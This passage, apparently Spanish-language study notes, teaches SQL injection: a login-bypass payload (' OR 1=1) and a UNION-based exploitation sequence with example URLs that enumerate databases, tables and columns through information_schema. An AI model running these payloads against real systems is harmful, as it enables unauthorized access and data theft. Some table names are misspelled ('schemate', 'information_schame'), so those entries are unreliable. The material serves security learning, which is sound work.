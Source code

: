 Sabiendo eso se puede usar el parámetro mágico: ' OR 1=1

```sql
SELECT usuario FROM usuarios WHERE usuario = '' OR '1'='1' AND password="" OR "1"="1"
```

Al ser todo verdadero devolverá la tabla completa de usuarios.

En caso de querer entrar en una cuenta en específico bastaría con cambiar el usuario a el que queremos acceder y dejamos el password con la frase mágica.

# Explotacion

1. Recopilación de información sobre usuarios, versión, etc.
   - **User()**: Que usuario ejecuta las consultas en la app.
   - **database()**: Nombre de la base de datos.
   - **@@version**: Que versión tenemos.
   - **@@datadir**: Donde está instalado MySQL.

```ad-example
title:Ejemplo
http://dominio/noticias.php?id=1 and 1=0 union select user(),database()
http://dominio/noticias.php?id=1 and 1=0 union select @@version,@@datadir
```

1. Extracción de información de la base de datos.
2. Extracción de las tablas de la base de datos seleccionada.
3. Extracción de las columnas de la tabla seleccionada.
4. Realizar las consultas personalizadas de las columnas y la tabla seleccionada.

Para sacar toda esta información usaremos la base de datos **information_schema**.

| Objetivo                     | Tabla                       | Columna     |
| ---------------------------- | --------------------------- | ----------- |
| Nombre de las bases de datos | information_schema.schemate | schema_name |
| Nombre de las tablas         | information_schema.tables   | table_name  |
| Nombre de las columnas       | information_schame.columns  | column_name |

En muchos casos solo nos deja devolver un solo registro, por lo que se usará la función **concat()** o **group_concat()** para unir toda la información.

```ad-example
title:Ejemplo
### Bases de datos

http://dominio/noticias.php?id=3 and 1=0 union
select group_concat(schema_name) from information_schema.schemata

### Tablas

http://dominio/noticias.php?id=3 and 1=0 union
select group_concat(table_name) from information_schema.tables where table_schema = 'nombre_BBDD'

### Columnas

http://dominio/noticias.php?id=3 and 1=0 union
select group_concat(column_name) from information_schema.columns where
table_name = 'nombre_tabla'

### Consultas personalizadas

http://dominio/noticias.php?id=3 and 1=0 union
select group_concat('nombre_columna') from nombre_tabla

```
